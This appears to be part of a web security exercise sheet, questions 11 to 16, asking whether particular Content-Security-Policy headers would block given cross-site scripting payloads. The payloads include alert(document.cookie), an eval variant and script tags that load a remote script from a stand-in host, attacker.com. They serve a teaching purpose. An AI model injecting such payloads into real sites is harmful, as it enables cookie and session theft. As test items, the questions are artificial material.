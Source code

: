 11. Would the following CSP prevent the XSS attack? (Yes/No)

  Why or why not?

  ```http
  Content-Security-Policy: default-src 'none'; script-src 'self' 'unsafe-eval'; connect-src 'self'; img-src 'self'; style-src 'self';
  ```

  ```html
  <script>alert(document.cookie)</script>
  ```

12. Would the following CSP prevent the XSS attack? (Yes/No)

  Why or why not?

  ```http
  Content-Security-Policy: default-src 'none'; script-src 'self' 'unsafe-eval'; connect-src 'self'; img-src 'self'; style-src 'self';
  ```

  ```html
  <script>eval('alert(document.cookie)')</script>
  ```

13. Would the following CSP prevent the XSS attack? (Yes/No)

  Why or why not?

  ```http
  Content-Security-Policy: default-src *; script-src 'self'; connect-src *; img-src *; style-src *;
  ```

  ```html
  <script src='https://attacker.com/xss.js'></script>
  ```

14. Would the following CSP prevent the XSS attack? (Yes/No)

  Why or why not?

  ```http
  Content-Security-Policy: default-src 'none'; script-src 'self' https:; connect-src 'none'; img-src 'none'; style-src 'none';
  ```

  ```html
  <script src='https://attacker.com/xss.js'></script>
  ```

15. Would the following CSP prevent the XSS attack? (Yes/No)

  Why or why not?

  ```http
  Content-Security-Policy: script-src 'self' 'nonce-R28gU3RhbmZvcmQh';
  ```

  ```html
  <script>alert(document.cookie)</script>
  ```

16. Would the following CSP prevent the XSS attack? (Yes/No)
